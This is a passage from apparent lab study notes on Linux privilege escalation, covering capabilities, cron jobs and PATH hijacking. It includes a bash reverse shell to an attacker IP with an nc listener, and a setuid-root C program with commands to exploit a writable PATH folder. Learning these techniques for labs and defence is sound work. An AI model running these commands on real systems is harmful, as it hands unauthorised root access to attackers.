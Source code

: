     * Capabilities manage privileges at a granular level. Use ```getcap -r / 2>/dev/null``` to list enabled capabilities.

    * Binaries that can be used for privilege escalation can be searched on GTFObins.

  * Cron Jobs:

    * Cron jobs are used to run scripts at specific times. By default, they run with the privilege of their owners.

    * Any user can read the cron jobs using ```cat /etc/crontab```.

    * If current user can access script, it can be modified to create a reverse shell with root privileges:

      ```shell
      #!/bin/bash
      bash -i >& /dev/tcp/10.0.2.15/6666 0>&1

      #make it executable
      chmod +x backup.sh

      #we have to run listener on attacking machine
      nc -nvlp 6666
      ```

  * PATH:

    * PATH is an environmental variable that tells OS where to search for executables; use ```echo $PATH```.

    * We can hack the system to run a script if we have the write permission for any folder included in PATH.

    * Example script:

      ```c
      //this script tries to launch a system binary called 'thm'
      #include<unistd.h>
      void main()
      { setuid(0);
        setgid(0);
        system("thm");
      }
      ```

      ```shell
      gcc script.c -o script -w

      chmod u+s script

      ./script

      #if any writable folder is listed under PATH we can create a binary (thm) in that directory and our script will run it
      #as SUID bit is set, it will run with root privilege
      #we can search for writable folders
      find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
